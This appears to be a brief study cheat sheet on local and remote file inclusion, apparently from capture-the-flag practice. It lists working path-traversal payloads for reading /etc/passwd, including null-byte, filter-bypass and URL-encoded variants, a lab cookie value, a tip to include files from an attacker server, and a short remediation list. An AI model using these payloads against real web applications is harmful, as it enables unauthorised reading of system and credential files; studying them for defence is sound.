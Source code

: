 # LFI

# Notes
1. Try POST Request in file inclusion urls.
2. For RFI try to include any file from Remote server(Attacker Server)

## Payloads
../../../../etc/passwd%00
../../../../etc/passwd/.
....//....//....//....//etc/passwd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
cookie: THM=admin

## Remediation
- Update to latest version of system and services
- Don't show errors in webpage
- Disable certain features, like allow_url_fopen or allow_url_include
- Never trust user input
- Whitelist only allowed files
